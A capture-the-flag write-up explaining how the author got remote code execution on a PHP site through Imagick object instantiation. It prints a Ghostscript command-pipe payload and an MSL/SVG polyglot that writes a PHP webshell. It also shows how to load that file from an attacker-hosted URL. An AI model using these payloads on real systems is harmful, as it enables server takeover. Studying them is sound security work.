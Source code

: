 # PHP & Arbitrary Object Instantiation
The September 2022 CTF released by @leonjza from Orange Cyberdefense was challenging, informative and a lot of fun. The challenge context was PHP and Code Execution via Arbitrary Object Instantiation, but I wont give away the ending quite yet.

I encourage you to first try it out, the URL is https://goldfish-tj6gf.ondigitalocean.app/index.html.

## The Eagle has landed
The landing page greets you with a few UI components, a file upload selector, a dropdown to select a size value between 1 and 4, a "send" button to upload the file and a link at the bottom labelled "Check DB".

![Landing page](Landing_page.png)

Uploading an image does not display your selected image, but it does open *an* image. 

![Upload page](upload_image.png)

Take note of the URI in the address bar - it is very important as it includes a clue as to the underlying code used to manipulate the images, the URI is "image.php?module=**Imagick**&params=NULL&size=1". A Google search for **Imagick** produces quite a few results, and we are on the track to discover our solution. 
ImageMagick is a library that can be used to manipulate images and PDF's via code on the server.

Funnily enough the evening I started the challenge,I saw on twitter someone had posted an Imagick RCE payload, and the stage was set..... wait Mr. Rabbit I'm on my way...

The payload for a single gif or jpg file is..
(Keep this one in your list of payloads to try, it may work under other circumstances)
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%COMMAND_OF_CHOICE) currentdevice putdeviceprops
```

After emerging from this detour, I was actually quite grateful for it, because of what I had managed to learn about ImageMagick. ImageMagick has a policy.xml file and this is very important to the security of a website. In this policy you can set many aspects of how ImageMagick processes files, but one of them is, which **coders** can run, as shown below.

```<policy domain="coder" rights="write" pattern="PS"/>```

The rights can be set to be "read" and/or "write" or "none" for each type of coder. Link to documentation: https://imagemagick.org/script/security-policy.php 

Due to this my payload was not being run and it kept throwing an error about the "PS" coder being blocked.

## File inception
One of the many google results pointed me in the direction of a polgyglot MSL(Magick Scripting Lanaguage) file, this is almost equivalent to a file within a file, something similar to an html file that references an xml file, which happens to be embedded in the original html file. Link to website: https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016.html

An msl file in ImageMagick is a scripting file that can run within the ImageMagick context. Link to documentation: https://imagemagick.org/script/conjure.php#msl

The RCE capability comes in where we can embed an msl file within an svg file. Once an instance of Imagick is instantiated using the svg file it will reference the msl file, as seen in the website link above.

There is however one caveat, the file needs to know its own location and name, so it can be referenced directly on the filesystem.
For example if you upload the file to /uploads/myimage.svg then you would need to reference it in the svg file as xlink:href="/var/www/html/uploads/myimage.svg". 

An example would be
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
  <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="/var/www/html/uploads/myimage.svg" height="1" width="1"/>
  </svg>
</image>
```
In the above payload we see the svg tags located within the image tags, and ImageMagick handles that without a problem. The SVG file will reference the msl file(itself) and then run the image part of it which will write a webshell payload to the path of your choosing.

However, in the challenge the files are saved to the /tmp directory using a randomized name so this is not possible.
A bit more reading and I discovered this link https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/ which gave me the correct way forward. ImageMagick has a vid scheme which can reference files without knowing the exact name. Please go to the link above as it explains in more detail how the vid scheme works.

Now all we need, is to find a way of referencing our svg file name at least partially. When the file is uploaded and processed it creates a temporary file in the /tmp directory as I mentioned, and the file name is always prepended with **magick-** and so we can settle on a final payload as shown below.

```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
 <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="vid:msl:/tmp/magick*" height="1" width="1"/>
 </svg>
</image>
```
## But uploading the file doesn't work!!
If you just upload the payload, no webshell will be created due to the code in the upload php file (you can take a look shortly when you have your webshell :)). The object instantiation is only triggered when you use the "params" parameter in the URI of the image.php page. By using the parameters to construct an instance of Imagick in PHP, we can control which file is used in the constructor via the "params" value and this is processed lower down the code chain as explained in the link(https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/).

You can get more information on the Imagick constructor at the documentation link : https://www.php.net/manual/en/imagick.construct.php.

Hosting the file and then referencing it from that location will cause the file to be downloaded. This will cause the webshell to be written to your chosen path, keep in mind the webshell will have to be accessible from the web.
We need to figure out the path of the web site root folder. I did this by forcing an error, one way is to leave the "params" without a value, this gives us an error message and so after a few attempts we find that the correct path to write the webshell to is /var/www/html. 
Now all we need to do is change the webshell path and change the "params" to our hosted image path, ie "image.php?module=Imagick&params=**http:// {example.com}/{your svg file}**&size=1".

## LIGHTS,CAMERA...ACTION!!
The result of a *successful* upload is a new error page.
![RCE success](upload_successful.png)

But typing in the path to your webshell file will load the previously non-existant page. WELL DONE!!
Your webshell works!

## Let's get that FLAG!!! 
Running the ls command, we see a few files in the web directory.

**(Mini challenge can you find the flag! go for it!).**

After printing out the lisitng of the files, we almost ignore the "Dockerfile" file, however this is where the clue lies.

![Dockerfile](Dockerfile.png)

Printing out that file reveals the location of our flag:
```ARG flag_value ENV FLAG ${flag_value}```

Finally we run the "env" command and there it is, in an entry called "FLAG=".

Thank You @leonjza for the opportunity to learn.
